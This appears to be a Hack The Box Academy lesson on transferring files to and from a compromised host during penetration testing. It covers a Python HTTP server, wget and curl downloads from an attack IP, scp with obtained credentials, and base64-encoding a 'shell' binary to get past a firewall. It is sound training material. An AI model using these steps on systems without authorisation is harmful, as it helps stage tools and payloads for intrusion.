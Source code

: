 During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ cd /tmp
Luis Miguel Jaime Hernandez@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Note that we used the `-o` flag to specify the output file name.

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.

## Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers

To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now, we can go to the remote server and run the same command on the file we transferred:

```shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files. You can check out the [File Transfers](https://academy.hackthebox.com/module/details/24) module for a more detailed study on transferring files.

